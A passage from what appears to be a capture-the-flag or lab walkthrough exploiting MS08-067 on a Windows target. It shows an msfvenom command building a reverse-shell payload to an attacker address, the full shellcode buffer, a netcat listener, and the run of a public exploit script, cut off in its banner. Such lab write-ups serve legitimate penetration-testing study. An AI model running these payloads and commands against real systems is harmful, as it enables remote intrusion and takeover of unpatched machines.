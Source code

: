 ```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.42 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1488 bytes
unsigned char buf[] = 
"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\x39\x97\xc7\x90\x83\xee\xfc\xe2\xf4\xc5\x7f\x45\x90\x39\x97"
"\xa7\x19\xdc\xa6\x07\xf4\xb2\xc7\xf7\x1b\x6b\x9b\x4c\xc2\x2d"
"\x1c\xb5\xb8\x36\x20\x8d\xb6\x08\x68\x6b\xac\x58\xeb\xc5\xbc"
"\x19\x56\x08\x9d\x38\x50\x25\x62\x6b\xc0\x4c\xc2\x29\x1c\x8d"
"\xac\xb2\xdb\xd6\xe8\xda\xdf\xc6\x41\x68\x1c\x9e\xb0\x38\x44"
"\x4c\xd9\x21\x74\xfd\xd9\xb2\xa3\x4c\x91\xef\xa6\x38\x3c\xf8"
"\x58\xca\x91\xfe\xaf\x27\xe5\xcf\x94\xba\x68\x02\xea\xe3\xe5"
"\xdd\xcf\x4c\xc8\x1d\x96\x14\xf6\xb2\x9b\x8c\x1b\x61\x8b\xc6"
"\x43\xb2\x93\x4c\x91\xe9\x1e\x83\xb4\x1d\xcc\x9c\xf1\x60\xcd"
"\x96\x6f\xd9\xc8\x98\xca\xb2\x85\x2c\x1d\x64\xff\xf4\xa2\x39"
"\x97\xaf\xe7\x4a\xa5\x98\xc4\x51\xdb\xb0\xb6\x3e\x68\x12\x28"
"\xa9\x96\xc7\x90\x10\x53\x93\xc0\x51\xbe\x47\xfb\x39\x68\x12"
"\xc0\x69\xc7\x97\xd0\x69\xd7\x97\xf8\xd3\x98\x18\x70\xc6\x42"
"\x50\xfa\x3c\xff\xcd\x9a\x37\xbd\xaf\x92\x39\x65\xf7\x19\xdf"
"\xfd\xd7\xc6\x6e\xff\x5e\x35\x4d\xf6\x38\x45\xbc\x57\xb3\x9c"
"\xc6\xd9\xcf\xe5\xd5\xff\x37\x25\x9b\xc1\x38\x45\x51\xf4\xaa"
"\xf4\x39\x1e\x24\xc7\x6e\xc0\xf6\x66\x53\x85\x9e\xc6\xdb\x6a"
"\xa1\x57\x7d\xb3\xfb\x91\x38\x1a\x83\xb4\x29\x51\xc7\xd4\x6d"
"\xc7\x91\xc6\x6f\xd1\x91\xde\x6f\xc1\x94\xc6\x51\xee\x0b\xaf"
"\xbf\x68\x12\x19\xd9\xd9\x91\xd6\xc6\xa7\xaf\x98\xbe\x8a\xa7"
"\x6f\xec\x2c\x27\x8d\x13\x9d\xaf\x36\xac\x2a\x5a\x6f\xec\xab"
"\xc1\xec\x33\x17\x3c\x70\x4c\x92\x7c\xd7\x2a\xe5\xa8\xfa\x39"
"\xc4\x38\x45";
```

Now, copy the payload that we just generated and replace the existing payload in the script. I will be using `mousepad` to update the script file. Once done, I can now run `nc` to recieve the shell after running the script:

```
# Terminal 1 (Set up listener)

nc -lvnp 62000         
listening on [any] 62000 ...

# Terminal 2 (Run the exploit)

python3 ms08_067_2018.py 10.10.10.4 6 445
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer:
#   - Added support for selecting a target port at the command line.
#     It seemed that only 445 was previously supported.
#   - Changed library calls to correctly establish a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode. Just cut and paste
```